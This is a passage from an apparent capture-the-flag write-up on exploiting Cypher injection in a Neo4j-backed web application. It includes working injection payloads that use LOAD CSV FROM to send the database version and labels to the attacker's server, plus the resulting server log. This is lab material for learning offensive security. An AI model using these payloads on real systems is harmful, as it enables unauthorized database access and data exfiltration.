 It loads 5 rows, the same as an empty search.:

![image-20230424152258451](../img/image-20230424152258451.png)

Given that’ none of those have “0xdf” in them, that’s proof of injection!

#### Extracting Information

The Hacktricks page on [Cypher
injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-
injection-neo4j#get-labels) has a bunch of good payloads to use from here.
It’s easier to exfil the data base to my server than to get it formatted
correctly to go onto the webpage. I’ll make use of `LOAD CSV FROM` to generate
out going requests.

I’ll start with this payload to get version information:

    
    
    ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.6/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
    

I’ve updated it to use my IP, and on sending it, I get results:

    
    
    10.10.11.210 - - [24/Apr/2023 15:32:14] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
    10.10.11.210 - - [24/Apr/2023 15:32:14] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
    

I’ll update the query on the page to get the labels:

    
    
    ' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.6/?l='+label as l RETURN 0 as _0//
    